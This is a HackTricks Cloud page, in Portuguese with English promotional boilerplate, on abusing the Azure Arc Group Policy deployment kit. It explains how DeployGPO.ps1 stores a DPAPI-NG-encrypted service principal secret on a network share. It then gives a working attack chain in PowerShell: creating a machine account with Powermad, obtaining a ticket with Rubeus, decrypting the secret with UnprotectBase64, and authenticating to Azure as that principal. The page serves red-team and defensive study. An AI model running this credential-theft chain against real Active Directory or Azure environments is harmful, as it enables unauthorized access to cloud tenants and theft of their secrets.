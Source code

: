 # Az - Arc vulnerable GPO Deploy Script

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Identificando os Problemas

Azure Arc permite a integração de novos servidores internos (servidores de domínio unidos) ao Azure Arc usando o método de Objeto de Política de Grupo. Para facilitar isso, a Microsoft fornece um kit de ferramentas de implantação necessário para iniciar o procedimento de integração. Dentro do arquivo ArcEnableServerGroupPolicy.zip, os seguintes scripts podem ser encontrados: DeployGPO.ps1, EnableAzureArc.ps1 e AzureArcDeployment.psm1.

Quando executado, o script DeployGPO.ps1 realiza as seguintes ações:

1. Cria o GPO de Integração de Servidores Azure Arc dentro do domínio local.
2. Copia o script de integração EnableAzureArc.ps1 para o compartilhamento de rede designado criado para o processo de integração, que também contém o pacote de instalação do Windows.

Ao executar este script, os administradores de sistema precisam fornecer dois parâmetros principais: **ServicePrincipalId** e **ServicePrincipalClientSecret**. Além disso, requer outros parâmetros, como o domínio, o FQDN do servidor que hospeda o compartilhamento e o nome do compartilhamento. Detalhes adicionais, como o ID do locatário, grupo de recursos e outras informações necessárias também devem ser fornecidos ao script.

Um segredo criptografado é gerado no diretório AzureArcDeploy no compartilhamento especificado usando a criptografia DPAPI-NG. O segredo criptografado é armazenado em um arquivo chamado encryptedServicePrincipalSecret. Evidências disso podem ser encontradas no script DeployGPO.ps1, onde a criptografia é realizada chamando ProtectBase64 com $descriptor e $ServicePrincipalSecret como entradas. O descriptor consiste nos SIDs do grupo de Computadores de Domínio e Controladores de Domínio, garantindo que o ServicePrincipalSecret só possa ser descriptografado pelos Controladores de Domínio e grupos de segurança de Computadores de Domínio, conforme observado nos comentários do script.
```powershell
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Exploit

Temos as seguintes condições:

1. Conseguimos penetrar com sucesso na rede interna.
2. Temos a capacidade de criar ou assumir o controle de uma conta de computador dentro do Active Directory.
3. Descobrimos um compartilhamento de rede contendo o diretório AzureArcDeploy.

Existem vários métodos para obter uma conta de máquina dentro de um ambiente AD. Um dos mais comuns é explorar a cota de conta de máquina. Outro método envolve comprometer uma conta de máquina através de ACLs vulneráveis ou várias outras configurações incorretas.
```powershell
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
Uma vez que uma conta de máquina é obtida, é possível autenticar usando essa conta. Podemos usar o comando runas.exe com a flag netonly ou usar pass-the-ticket com Rubeus.exe.
```powershell
runas /user:fake01$ /netonly powershell
```

```powershell
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
Ao ter o TGT para nossa conta de computador armazenado na memória, podemos usar o seguinte script para descriptografar o segredo do principal de serviço.
```powershell
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
Alternativamente, podemos usar [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG).

Neste ponto, podemos reunir as informações restantes necessárias para conectar ao Azure a partir do arquivo ArcInfo.json, que está armazenado na mesma unidade de rede que o arquivo encryptedServicePrincipalSecret. Este arquivo contém detalhes como: TenantId, servicePrincipalClientId, ResourceGroup e mais. Com essas informações, podemos usar o Azure CLI para autenticar como o service principal comprometido.

## Referências

* [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
